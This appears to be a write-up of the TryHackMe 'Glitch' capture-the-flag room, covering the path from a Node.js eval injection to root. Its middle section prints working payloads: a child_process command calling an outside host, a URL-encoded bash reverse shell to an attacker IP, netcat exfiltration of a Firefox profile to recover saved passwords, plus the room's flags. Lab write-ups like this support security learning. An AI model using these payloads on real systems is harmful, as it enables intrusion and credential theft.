 # Tryhackme.com Room : GLITCH

`https://tryhackme.com/room/glitch`

## Instance

```bash
export IP="10.10.40.42"
```

## Nmap

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: not allowed
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Initial Foothold

Seems like we only have a website running on port `80` 

The website is only a static image.

We find this javascript :

```javascript
function getAccess() {
        fetch('/api/access')
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
```

Calling the `getAccess()` function from the console, we get the following token

```
dGhpc19pc19ub3RfcmVhbA==
```

Which is `base64` for 

```
this_is_not_real
```

Calling the function/visiting the endpoint multiple time always return the same output



Setting the cookie value `token:this_is_not_real` we get access to more stuff on the website

Some javascript call the endpoint `/api/items` which return

```json
{
    sins: [
        "lust",
        "gluttony",
        "greed",
        "sloth",
        "wrath",
        "envy",
        "pride"
    ],
    errors: [
        "error",
        "error",
        "error",
        "error",
        "error",
        "error",
        "error",
        "error",
        "error"
    ],
    deaths: [
    	"death"
    ]
}
```



which translate to a bunch of glitch art image being inserted in the page.

Hmm doesn't seem to have much in there



let's gobuster the `/api` endpoint see what else is there. Doesn't seems like we need a valid token to access `/api/items` only `/` change when we have a valid token



gobuster didn't return anything interesting.

We try a post on `/api/items`

```bash
curl -X POST http://$IP/api/items
```

We get this answer

```json
{
    "message":"there_is_a_glitch_in_the_matrix"
}
```

Hmmm, not sure what to do with this tho, tried to use it as the value for the token with no success.

Whatever the value sent via post, we get the same answer.

Sooo, tried fuzzing `post` parameters, couldn't find anything.

Looked at a write up, didn't think to fuzz the `GET` parameters.. let's do it

```bash
wfuzz -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --hc 400 -X POST http://$IP/api/items?FUZZ=FUZZ
```

After a while we get a hit on the parameter `cmd`

```
curl -X POST http://$IP/api/items?cmd=1
```

give us

```
vulnerability_exploited 1
```

If we use `cmd=ls` we get this error

```javascript
ReferenceError: ls is not defined
    at eval (eval at router.post (/var/web/routes/api.js:25:60), <anonymous>:1:1)
    at router.post (/var/web/routes/api.js:25:60)
    at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)
    at next (/var/web/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)
    at /var/web/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)
    at next (/var/web/node_modules/express/lib/router/index.js:275:10)
    at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)
```

We see that this is a node js server running express which run `eval` on our input.



We can test our code execution using something like this :

```
curl -X POST 'http://10.10.77.117/api/items?cmd=require("child_process").exec("curl%2010.2.13.34:8000/test")'
```

This send us an http request. Note the `%20` for the space char, otherwise we get errors.



Now let's get a shell. We use the following payload

```
require("child_process").exec("bash -c 'bash -i >& /dev/tcp/10.2.13.34/7777 0>&1'")
```

Which translate to this when URL encoded :

```
curl -X POST 'http://10.10.77.117/api/items?cmd=require%28%22child_process%22%29.exec%28%22bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.2.13.34/7777%200%3E%261%27%22%29'
```



We finally have a shell on the box.

We find `/home/user/user.txt`

```
THM{i_don't_know_why}
```

## Priv esc

We don't have the user password so we can't `sudo -l` 

Doesn't seem to have interesting cron job running.

Searching for `suid` binaries `find / -perm -4000 2>/dev/null`

We find `doas` which is compiled from `/opt/doas` might be usefull ?



There is also a user `v0id` but doesn't seem to own interesting files

Hmmm, runned `linpeas` but didn't find anything usefull



Soooo, after a while running around in circle, I looked at a writeup, found that we need to decrypt the firefox profile in `~/.firefox`.

Didn't think about that. We use `https://github.com/unode/firefox_decrypt` to do so.

Need to exfiltrate the .firefox folder, we do so by first `tar -zcvf firefox.tar.gz .firefox` 

Then I tried to run a python http server but couldn't access it (ports doesn't seem to be available for some reason). Exfiltrated usin netcat (https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/)

We find these credentials :

```
Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'
```



We can now `su` into the `v0id` user.

We can't `sudo` maybe `doas` ?



Yep, here is the doas config file

```
cat /usr/local/etc/doas.conf
permit v0id as root
```

Now we just need to run `doas /bin/bash` and we are root !

We find the root flag `/root/root.txt`:

```
THM{diamonds_break_our_aching_minds}
```



## End


